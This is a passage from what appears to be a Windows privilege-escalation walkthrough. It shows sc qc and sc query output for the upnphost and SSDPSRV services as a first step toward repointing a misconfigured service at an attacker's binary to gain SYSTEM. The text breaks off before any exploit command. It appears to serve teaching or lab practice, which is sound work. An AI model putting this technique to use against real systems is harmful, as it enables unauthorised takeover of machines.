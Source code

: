 
   When we edit these services so they execute a binary of our choice, we can escalate our privileges to SYSTEM.
   How to exploit it?

   Before we exploit these services, let's check out how their parameters look at the moment.

      # upnphost								 

      C:\> sc qc upnphost
      [SC] GetServiceConfig SUCCESS

      SERVICE_NAME: upnphost
              TYPE               : 20  WIN32_SHARE_PROCESS
              START_TYPE         : 3   DEMAND_START
              ERROR_CONTROL      : 1   NORMAL
              BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService
              LOAD_ORDER_GROUP   :
              TAG                : 0
              DISPLAY_NAME       : Universal Plug and Play Device Host
        DEPENDENCIES       : SSDPSRV
              SERVICE_START_NAME : NT AUTHORITY\LocalService		

      # SSDPSRV

      C:\> sc qc SSDPSRV
      [SC] GetServiceConfig SUCCESS

      SERVICE_NAME: SSDPSRV
              TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 4   DISABLED
              ERROR_CONTROL      : 1   NORMAL
              BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService  
              LOAD_ORDER_GROUP   :   
              TAG                : 0  
              DISPLAY_NAME       : SSDP Discovery Service   
              DEPENDENCIES       :   
              SERVICE_START_NAME : NT AUTHORITY\LocalService								 


   upnphost is the service we are going to use to escalate our privileges. As you can see upnphost has a dependency, it requires SSDPSRV to run aswel. If we take a look at the current status of SSDPSRV with the command sc query SSDPSRV we can see that the service is currently STOPPED. If we try to start this service, we will get an error, as shown below.

      # Query status

      C:\> sc query SSDPSRV

      SERVICE_NAME: SSDPSRV
              TYPE               : 20  WIN32_SHARE_PROCESS 
              STATE              : 1  STOPPED 
                                      (NOT_STOPPABLE,NOT_PAUSABLE,IGNORES_SHUTDOWN)
              WIN32_EXIT_CODE    : 1077       (0x435)
              SERVICE_EXIT_CODE  : 0  (0x0)
              CHECKPOINT         : 0x0
              WAIT_HINT          : 0x0
